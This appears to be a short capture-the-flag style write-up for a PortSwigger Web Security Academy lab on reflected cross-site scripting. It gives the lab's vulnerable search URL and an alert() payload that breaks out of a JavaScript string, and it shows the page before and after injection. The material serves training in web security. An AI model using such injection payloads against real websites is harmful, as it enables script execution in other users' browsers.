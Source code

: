 # Reflected XSS into a JavaScript string with angle brackets HTML encoded

# [Lab Link](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded)  

## Vulnerable Parameter:
```plaintext
https://0a3000d90470dae0823aab1f001b0041.web-security-academy.net/?search=
```

## Payload

```js
'-alert("Pwned by ruhan53c")-'
```

## Frontend

```js
var searchTerms = '';
```

## Frontend after payload


```js
var searchTerms = ''-alert("Pwned by ruhan53c")-'';  
```  



> ##### "We used -alert()- just for bypassing validation"
